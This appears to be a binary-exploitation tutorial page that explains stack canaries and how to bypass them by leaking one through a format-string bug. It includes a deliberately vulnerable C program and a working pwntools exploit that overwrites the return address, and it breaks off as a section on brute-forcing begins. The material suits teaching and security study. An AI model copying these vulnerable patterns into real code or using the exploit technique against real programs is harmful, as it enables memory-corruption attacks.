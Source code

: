 # Protection Mechanisms

A stack canary is a value which the compiler may insert right before the stored base pointer on the stack. When a function is about to return to its caller, the canary is checked for modifications and if it is found to have been changed during the programme's execution, the executable deliberately aborts.

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/Canaries/Canary Memory Layout.svg>)

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/Canaries/Stack Canary Abort Example.png>)

There are 3 main types of canaries:

* **Random**: a random value generated when the programme is run and remains unchanged throughout its execution
* **Terminator**: a special value which is made up of bytes representing well-known bad characters (such as `0x00`, `0xaf` and ) that aim to prevent canary bypasses by terminating input functions
* **XOR**: a random value XOR-ed with the current saved base pointer which makes the canary unique for every function

In Linux, the canary is generated each time `execve()` is called and is stored at an offset of `0x28` from the `FS` register. Additionally, the last byte of Linux canaries is always `0x00`, so they are actually a mixture of a terminator and a random canary. Unfortunately, this distinction also makes them quite easy to spot.

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/Canaries/Stack Canary Assembly.png>)

## Bypassing Canaries

There are two main ways of bypassing canaries.

### Leaking the Canary

The first way is to leak the canary, for example by exploiting a format string vulnerability.

```cpp
#include <stdio.h>
#include <string.h>

void deleteDB() {
    puts("Database deleted.");
}

int main() {
    char buffer[64];

    puts("Enter name: ");
    gets(buffer);
    printf(buffer);

    puts("\nEnter age: ");
    gets(buffer);
    puts("Database updated.");
}

```

When we execute the programme, we can abuse the format string vulnerability in `printf(buffer);` to leak data from the stack like so:

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/Canaries/Canary Leak.png>)

The highlighted string looks awfully like a canary. We count that this is the 35th value on the stack and so we can check it a few more times just to be sure.

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/Canaries/Canary Leak Confirmation.png>)

Indeed, it appears to be a random value but always ends in `0x00`. Now that we can leak the canary, we can include it in our buffer overflow at the approriate position and when we would have essentially left the canary unchanged since we would overwrite it with its original value. Now we are ready to prepare our exploit:

```python
#!/usr/bin/python3

from pwn import *

p = process('./canary')

p.recvline() # receive the 'Enter name: ' line
p.sendline("%35$p") # exploit the format string

canary = int(p.recvline(), 16)

exploit = b'A' * 0x48 # overflow the buffer
exploit += p64(canary) # add the canary
exploit += b'A' * 0x8 # padding to the return address (overwriting the saved base pointer)
exploit += p64(0x401156) # address of deleteDB

p.recvline() # receive the 'Enter age: ' line
p.sendline(exploit)

print(p.clean().decode('latin-1'))
```

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/Canaries/Canary Bypass.png>)

### Bruteforcing the Canary

This technique abuses the fact that processes which are `fork`-ed from the same process will all share the same canary. This attack, however, is only really feasible on 32-bit machines, since the canary there is 32 bits long.
